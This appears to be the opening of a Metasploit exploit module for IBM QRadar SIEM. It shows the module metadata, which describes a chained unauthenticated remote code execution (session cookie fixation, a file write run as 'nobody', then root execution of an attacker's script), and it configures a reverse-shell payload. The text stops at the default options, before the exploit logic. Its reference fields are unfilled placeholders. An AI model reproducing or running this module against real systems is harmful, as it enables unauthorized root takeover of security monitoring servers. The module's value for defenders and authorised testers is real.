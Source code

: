 **Exploit**<br>
```rb
##
# This module requires Metasploit: http://metasploit.com/download
# Current source: https://github.com/rapid7/metasploit-framework
##
require 'msf/core'
require 'securerandom'
class MetasploitModule < Msf::Exploit::Remote
  Rank = ExcellentRanking
  include Msf::Exploit::Remote::HttpClient
  include Msf::Exploit::Remote::HttpServer
  include Msf::Exploit::EXE
  def initialize(info = {})
    super(update_info(info,
      'Name'           => 'IBM QRadar SIEM Unauthenticated Remote Code Execution',
      'Description'    => %q{
        IBM QRadar SIEM has three vulnerabilities in the Forensics web application
        that when chained together allow an attacker to achieve unauthenticated remote code execution.
        The first stage bypasses authentication by fixating session cookies.
        The second stage uses those authenticated sessions cookies to write a file to disk and execute
        that file as the "nobody" user.
        The third and final stage occurs when the file executed as "nobody" writes an entry into the
        database that causes QRadar to execute a shell script controlled by the attacker as root within
        the next minute.
        Details about these vulnerabilities can be found in the advisories listed in References.
        The Forensics web application is disabled in QRadar Community Edition, but the code still works,
        so these vulnerabilities can be exploited in all flavours of QRadar.
        This module was tested with IBM QRadar CE 7.3.0 and 7.3.1. Most likely all versions released since
        mid 2014 are vulnerable, as that was when the Forensics application was introduced.
        Due to payload constraints, this module only runs a generic/shell_reverse_tcp payload.
      },
      'Author'         =>
        [
          'Pedro Ribeiro <pedrib@gmail.com>'         # Vulnerability discovery and Metasploit module
        ],
      'License'        => MSF_LICENSE,
      'Platform'       => ['unix'],
      'Arch'           => ARCH_CMD,
      'References'     =>
        [
         ['CVE', ''],
         ['URL', 'SECURITEAM_URL'],
         ['URL', 'GITHUB_URL'],
         ['URL', 'FULLDISC_URL']
        ],
      'Targets'        =>
        [
          [ 'IBM QRadar SIEM <= LAST_VULN_VERSION', {} ],
        ],
      'Payload'        => {
        'Compat'       => {
          'ConnectionType'  => 'reverse',
        }
      },
      'DefaultOptions'  => {
        'SSL'     => true,
```